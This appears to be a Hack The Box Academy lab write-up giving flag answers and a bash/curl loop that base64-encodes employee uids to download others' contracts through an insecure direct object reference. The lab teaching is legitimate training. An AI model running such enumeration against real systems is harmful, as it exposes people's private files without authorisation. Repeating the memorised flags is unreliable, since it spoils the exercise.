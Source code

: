 ```
┌─[us-academy-1]─[10.10.14.20]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ cat flag_11dfa168ac8eb2958e38425728623c98.txt

HTB{4ll_f1l35_4r3_m1n3}
```

Answer: `HTB{4ll_f1l35_4r3_m1n3}`

# Bypassing Encoded References

## Question 1

### "Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly."

After spawning the target machine and viewing the page source of the `/contracts.php` page, students will notice that the `/download.php` page takes the `contract` parameter with the value being the base64 of `uid`:

![[HTB Solutions/CPTS/z. images/f4b98e812797a9315354559c9fca1b40_MD5.jpg]]

Thus, students need to write a script that will loop over the different employees' `uid` from 1 to 20 and base64 encode them so that they get passed as values for the `contract` parameter and download the corresponding files:

Code: bash

```bash
for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0); do
        curl -sOJ "http://STMIP:STMPO/download.php?contract=$hash"
    done
done
```

After running the script, students will have 20 PDF files downloaded, and to know which one of them contains the flag, students can use `ls` with the `-l` flag to notice that all of them are empty except `contract_98f13708210194c475687be6106a3b84.pdf`:

Code: shell

```shell
ls -lAS contract_*
```

```
┌─[us-academy-1]─[10.10.14.9]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ls -lAS contract_*

-rw-r--r-- 1 htb-ac413848 htb-ac413848 30 Jul 25 18:04 contract_98f13708210194c475687be6106a3b84.pdf
-rw-r--r-- 1 htb-ac413848 htb-ac413848  0 Jul 25 18:04 contract_1679091c5a880faf6fb5e6087eb1b2dc.pdf
-rw-r--r-- 1 htb-ac413848 htb-ac413848  0 Jul 25 18:04 contract_1f0e3dad99908345f7439f8ffabdffc4.pdf
-rw-r--r-- 1 htb-ac413848 htb-ac413848  0 Jul 25 18:04 contract_45c48cce2e2d7fbdea1afc51c7c6ad26.pdf
-rw-r--r-- 1 htb-ac413848 htb-ac413848  0 Jul 25 18:04 contract_6512bd43d9caa6e02c990b0a82652dca.pdf

<SNIP>
```
